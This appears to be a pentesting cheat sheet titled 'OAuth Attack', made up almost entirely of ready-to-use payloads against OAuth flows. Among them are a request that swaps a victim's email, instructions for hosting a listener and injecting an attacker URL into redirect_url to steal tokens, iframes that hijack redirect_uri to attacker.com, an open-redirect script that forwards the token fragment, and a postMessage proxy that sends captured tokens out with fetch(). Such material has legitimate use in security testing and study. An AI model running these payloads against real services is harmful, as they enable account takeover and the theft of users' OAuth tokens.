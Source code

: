 ```yaml
---
title: OAuth Attack
desc: 
tags: [Burp, CSRF, OAuth, Web]
alts: []
render_with_liquid: false
---
```


## Change User Info

```json
POST /authenticate HTTP/1.1
...

{
    "email":"victim@example.com",
    "username":"attacker",
    "token":"b7Gl7Xoy..."
}
```

<br />

## Steal Tokens

1. **Open Web Server in Your Local Machine**

    ```sh
    python3 -m http.server 8000
    ```

2. **Inject Your Local URL to the Redirect URL**

    Access to the URL below.

    ```sh
    https://vulnerable.com/oauth?redirect_url=http://<attacker-ip>:8000/login&response_type=token&scope=all
    ```

<br />

## CSRF

1. **Steal Code**

    ```html
    <iframe src="https://vulnerable.com/oauth-linking?code=kZ7bfFa..."></iframe>
    ```

2. **Hijack redirect_url**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=ysdj...&redirect_uri=https://attacker.com&response_type=code&scope=openid%20profile%20email">
    </iframe>
    ```

3. **Open Redirect**

    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://vulnerable.com/auth?client_id=7Fdx8a...&redirect_uri=https://vulnerable.com/oauth-callback/../post/next?path=https://attacker.com/exploit/&response_type=token&nonce=398...&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```

4. **Proxy Page (postMessage)**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=iknf...&redirect_uri=https://vulnerable.com/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-118...&scope=openid%20profile%20email"></iframe>
    <script>
        window.addEventListener('message', e => {
            fetch("/" + encodeURIComponent(e.data.data));
        }, false);
    </script>
    ```
